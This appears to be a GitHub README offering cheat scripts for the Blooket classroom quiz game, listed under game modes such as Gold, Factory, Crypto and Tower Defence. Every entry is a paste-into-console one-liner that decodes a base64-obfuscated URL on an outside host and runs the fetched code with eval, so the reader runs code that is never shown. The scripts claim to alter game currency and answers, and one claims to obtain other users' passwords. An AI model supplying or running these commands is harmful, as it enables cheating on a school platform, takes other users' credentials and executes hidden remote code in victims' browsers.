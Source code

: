 # Blooket
blooket hacks

## Global


## <a id="addTokens.js"></a>addTokens.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```


## <a id="spamOpenBoxes.js"></a>spamOpenBoxes.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="sellDupeBlooks.js"></a>sellDupeBlooks.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDY2OTM2L2dsb2JhbFNlbGxEdXBlQmxvb2tzLmpz')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="getEveryAnswerCorrect.js"></a>getEveryAnswerCorrect.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEV2ZXJ5QW5zd2VyQ29ycmVjdC5qcw==')).then((res) => res.text().then((t) => eval(t)))
```



## Gold



## <a id="chest-esp.js"></a>chest-esp.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dvbGRDaGVzdEVTUC5qcw==')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="Getgold"></a>Getgold.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dvbGRHZXRHb2xkLmpz')).then((res) => res.text().then((t) => eval(t)))
```

## Factory 

## <a id="GetMegaBot"></a>GetMegaBot.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2ZhY3RvcnlHZXRNZWdhQm90Lmpz')).then((res) => res.text().then((t) => eval(t)))
```
## <a id="GetCash"></a>GetCash.js

Open console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2ZhY3RvcnlHZXRDYXNoLmpz')).then((res) => res.text().then((t) => eval(t)))
```


## Crypto



## <a id="GetCrypto"></a>GetCrypto.js

Open Console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjE0L2NyeXB0b0dldENyeXB0by5qcw==')).then((res) => res.text().then((t) => eval(t)))
```
## <a id="GetOtherUsersPasswords"></a>GetOtherUsersPasswords.js

Open Console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2NyeXB0b0hhY2tQYXNzd29yZHMuanM=')).then((res) => res.text().then((t) => eval(t)))
```


## Tower Defence

## <a id="ChangeGameRound"></a>ChangeGameRound.js

Open Console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjE0L3RkQ2hhbmdlR2FtZVJvdW5kLmpz')).then((res) => res.text().then((t) => eval(t)))
```

## <a id="ClearEnemies"></a>ClearEnemies.js

Open Console (ctrl + shift + j) and past the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL3RkQ2xlYXJFbmVtaWVzLmpz')).then((res) => res.text().then((t) => eval(t)))
```js




## More hacks are coming soon if someone coments on this with more working hacks i will add them
